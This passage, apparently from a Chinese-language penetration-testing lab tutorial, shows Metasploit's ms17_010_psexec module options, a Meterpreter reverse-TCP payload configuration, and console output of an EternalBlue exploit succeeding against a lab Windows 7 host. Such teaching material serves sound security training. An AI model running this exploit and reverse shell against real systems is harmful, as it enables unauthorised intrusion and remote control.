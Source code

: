 ```shell-session
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

一旦一切就绪并准备就绪，我们就可以继续发起攻击。请注意，此处未设置有效载荷，因为默认的有效载荷足以进行此演示。

#### MSF - 利用执行

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
```